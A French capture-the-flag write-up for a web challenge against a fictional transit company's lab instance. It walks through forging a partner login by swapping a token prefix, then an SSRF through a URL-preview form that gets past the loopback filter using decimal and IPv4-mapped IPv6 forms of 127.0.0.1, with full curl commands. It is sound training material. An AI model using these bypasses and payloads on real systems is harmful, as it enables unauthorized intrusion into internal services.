

# Last Departure — Northline Transit (Web, 70 pts)

## Objectif

Accéder à l'espace partenaire de Northline Transit, comprendre l'échange avec
le service interne de coordination, et récupérer l'information permettant
d'intercepter Thomas Crown.

Cible : `http://172.28.35.2:8080` (IP variable selon l'instance).

## 1. Reçu et QR

Le reçu `recu_northline.png` contient la référence `NL-24-7K42` et un QR code.



Décodage du QR :

```bash
zbarimg --raw recu_northline.png
# http://192.168.73.128:8182/track/TRK.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e
```

Le format des codes est documenté sur `/documentation` :

```text
PREFIX.identifiant.intégrité
```

Le préfixe détermine le niveau d'accès ; l'intégrité est calculée à partir de
l'identifiant. Le même identifiant et la même intégrité peuvent donc être
réutilisés avec un autre préfixe.

## 2. Accès partenaire

Le code de suivi utilise le préfixe `TRK`. En remplaçant le préfixe par `PRT`
(code partenaire), on obtient une session :

```text
PRT.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e
```

```bash
curl -s -c cookies -X POST \
  -d 'code=PRT.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e' \
  http://172.28.35.2:8080/login
# 302 /dashboard, session partenaire
```

Le dashboard affiche un « identifiant de session » au format flag. Ce n'est
pas le flag attendu : c'est un leurre/gate. Le vrai objectif est le service de
coordination interne.

## 3. SSRF via l'outil de bordereaux

Le formulaire `/waybills` accepte une `source_url` et le serveur la récupère
pour afficher un aperçu. Le validateur :

- n'accepte que le schéma `http` ;
- n'accepte que le port **8081** ;
- refuse les adresses locales littérales (`127.0.0.1`, `localhost`).

Le service de préparation est un sidecar local sur `127.0.0.1:8081`. Pour
contourner le blocage local, on utilise la forme décimale de `127.0.0.1` :

```text
http://2130706433:8081/flag
```

ou `http://[::ffff:127.0.0.1]:8081/flag`.

Le service local répond `404` sur `/`, mais expose le flag sur `/flag`.

## 4. Exploitation

```bash
# session partenaire
curl -s -c cookies -X POST \
  -d 'code=PRT.89a68c336ddecef271c90619.6d138d274ad90be7c290bdf3035cc96e' \
  http://172.28.35.2:8080/login

# SSRF vers le sidecar local
curl -s -b cookies -X POST \
  --data-urlencode 'source_url=http://2130706433:8081/flag' \
  http://172.28.35.2:8080/waybills
```

La réponse contient le flag du service de coordination. Le flag a été reporté
à la plateforme sous **Last Departure** et n'est pas recopié ici.

## 5. Pièges

- Le code affiché sur le dashboard est un leurre, pas le flag.
- Les liens du type `/packages/...` du miroir PyPI (autre challenge) ne
  s'appliquent pas ici.
- Le port 8182 est le service de coordination, mais le formulaire `/waybills`
  ne l'autorise pas directement : il faut passer par le sidecar local 8081.
- `127.0.0.1` et `localhost` sont bloqués ; les formes décimales / IPv6
  mappées contournent le filtre.
- Le service local ne répond pas sur `/` ; le flag est sur `/flag`.

## 6. Validation

1. Le login partenaire renvoie `302 /dashboard`.
2. `GET /waybills` avec `source_url=http://2130706433:8081/` renvoie
   « statut 404 » du service distant (le sidecar est joignable).
3. `source_url=http://2130706433:8081/flag` renvoie le flag.
